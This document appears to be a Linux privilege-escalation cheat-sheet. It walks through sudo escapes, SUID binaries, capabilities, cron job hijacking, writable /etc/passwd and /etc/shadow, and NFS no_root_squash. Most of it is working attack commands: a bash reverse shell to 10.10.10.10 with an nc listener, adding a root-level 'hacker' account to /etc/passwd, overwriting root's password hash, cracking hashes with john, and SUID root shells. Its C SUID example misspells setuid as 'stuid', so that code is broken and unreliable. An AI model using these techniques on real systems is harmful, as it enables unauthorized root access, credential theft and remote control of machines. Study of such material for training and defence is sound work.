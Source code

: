 # _Privilege Escalation for Linux (Cheat-Sheet)_

> ## **Sudo - Shell Escape Sequences**
>
> command `sudo -l`  
> Visit [GTFOBins](https://gtfobins.github.io/) Search result: search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

> ## **SUID (Set-user Identification)**
>
> _command_ `find / -type f -perm -04000 -ls 2>/dev/null`  
> or  
> `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` will list files that have SUID or SGID bits set.  
> Visit Search result: [GTFOBins](https://gtfobins.github.io/)  
> try read the `/etc/shadow` file or adding our user to `/etc/passwd`
> add a new user that has root privileges.  
> We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux: _command_ `openssl passwd -1 -salt foo` Result: _$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B._  
> We will then add this password with a username to the `/etc/passwd` file: _hacker:$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B.:0:0:root:/root:/bin/bash_  
> Once our user is added we will need to switch to this user and hopefully should have root privileges.  
> **With _unshadow_ and _john_:**  
>  unshadow necesita los archivos _/etc/shadow_ and _/etc/passwd_  
>  create with result _shadow.txt_ and _passwd.txt_  
>  _command_ `unshadow passwd.txt shadow.txt > passwords`  
>  `john passwords` -> default brute force or `john --wordlist=diccionario.lst --rules password`

> ## **Capabilities**
>
> _command_ `getcap -r / 2>/dev/null`  
> Search [GTFOBins](https://gtfobins.github.io/) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

> ## **Cron Jobs - File Permissions**
>
> _command_ `cat /etc/crontab`  
> `locate overwrite.sh` or `locate backup.sh`  
> A similar situation where the "any.sh" script was deleted, but the cron job still exists.
> If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the _/etc/crontab_ file. In this case, we should be able to create a script named “any.sh” under our user’s home folder and it should be run by the cron job.  
> _modify or create script_

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6668 0>&1
```

> We will now run a listener on our attacking machine to receive the incoming connection:  
> _command_ `nc -nlvp 6668`

> ## **Cron Jobs - PATH Enviroment Variable**
>
> _command_ `cat /etc/crontab`  
> Note that the PATH variable starts with /home/user which is our user's home directory.  
> Create a file called overwrite.sh in your home directory with the following contents:  
> _modify script_

```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

> Make sure that the file is executable:  
> `chmod +x /home/user/overwrite.sh`  
> Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges: `/tmp/rootbash -p`

> ## **Weak File Permissions - Writable /etc/passwd**
>
> `ls -l /etc/passwd`  
> Generate a new password hash with a password of your choice:  
> `openssl passwd newpasswordhere`  
> Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").  
> Switch to the root user, using the new password.

> ## **Weak File Permissions - Writable /etc/shadow**
>
> `ls -l /etc/shadow`  
> Generate a new password hash with a password of your choice:  
> `mkpasswd -m sha-512 newpasswordhere`  
> Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.  
> Switch to the root user, using the new password.

> ## **NFS (Network File Sharing)**
>
> configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.  
>  _command_ `cat /etc/exports`  
>  The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
>  We will start by enumerating mountable shares from our attacking machine: `showmount -e 10.10.10.10`  
>  We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable: `mkdir /tmp/backupsonattackermachine`  
>  `mount -o rw 10.10.10.10:/fileexport /tmp/backupsonattackermachine`  
>  As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job: `nano nfs.c`

```c
int main()
{ setgid(0);
  stuid(0);
  system("/bin/bash");
  return 0;
}
```

> Once we compile the code we will set the SUID bit: `gcc nfs.c -o nfs -w`  
>  `chmod +s nfs`  
>  `ls -l nfs`  
>  `./nfs`
